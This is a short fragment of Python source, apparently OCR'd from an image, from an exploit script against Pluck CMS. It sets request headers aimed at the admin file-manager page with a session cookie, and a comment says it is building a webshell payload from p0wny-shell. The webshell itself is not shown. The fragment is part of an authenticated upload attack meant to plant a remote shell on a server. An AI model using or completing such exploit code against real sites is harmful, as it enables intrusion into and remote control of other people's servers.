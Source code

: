         'Referer': 'http://' + target_ip + ':' + target_port + pluckcmspath + '/admin.php?action=files',
        'Cookie': cookie,
        'Upgrade-Insecure-Requests': '1'
    }

    # Constructing Webshell payload: I'm using p0wny-shell: https://github.com/flozz/p0wny-shell